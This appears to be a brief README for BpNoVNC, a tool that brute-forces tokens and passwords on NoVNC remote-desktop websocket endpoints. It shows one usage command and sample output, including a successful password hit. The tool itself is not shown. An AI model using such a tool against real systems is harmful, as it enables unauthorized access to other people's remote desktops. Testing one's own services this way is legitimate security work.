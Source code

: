 # BpNoVNC
爆破NoVNC

python3 BpNoVNC.py -t ws://1.2.1.1:6080 -tf token.txt -pf pass.txt
[*]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:123123
[*]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:VNC
[-]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:123123
[+]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:VNC
